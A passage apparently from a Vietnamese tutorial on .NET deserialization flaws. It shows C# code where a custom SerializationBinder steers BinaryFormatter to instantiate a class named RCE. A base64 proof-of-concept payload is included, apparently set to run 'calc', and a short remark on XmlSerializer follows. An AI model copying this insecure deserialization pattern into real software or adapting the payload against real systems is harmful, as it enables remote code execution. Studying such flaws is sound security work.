 ```C#
		public string strProp
		{
			set
			{ }
		}
	}

	public class Binder : SerializationBinder
	{
		public override Type BindToType(string assemblyName, string typeName)
		{
			string types = string.Format("{0}, {1}", typeName, assemblyName);
			if (types.Length == 70)
				return typeof(RCE);
			return typeof(BinFormat);
			//return null;
		}
	}

	public class Go
	{
		public static string Serial(MemoryStream stream, string text)
		{
			BinFormat a = new BinFormat(text);
			BinaryFormatter format = new BinaryFormatter();
			format.Serialize(stream, a);
			return Convert.ToBase64String(stream.ToArray());
		}

		public static T Deserial<T>(string value) where T : class
		{
			byte[] buffer = Convert.FromBase64String(value);
			BinaryFormatter format = new BinaryFormatter();
			format.Binder = new Binder();
			MemoryStream serialStream = new MemoryStream(buffer);
			T result = format.Deserialize(serialStream) as T;
			return result;
		}
	}
}

// "AAEAAAD/////AQAAAAAAAAAMAgAAADt0ZXN0LCBWZXJzaW9uPTEuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49bnVsbAUBAAAAG0JpbmFyeUZvcm1hdHRlck5zLkJpbkZvcm1hdAEAAAAYPHN0clByb3A+a19fQmFja2luZ0ZpZWxkAgIAAAAJAwAAAAUDAAAACVJDRU5zLlJDRQEAAAAEX2NtZAECAAAABgQAAAAEY2FsYws="
```

### ***`XmlSerializer`***

Sử dụng các setter trong quá trình deserialize. Không sử dụng cùng các interface. Chỉ serialize các public property có setter
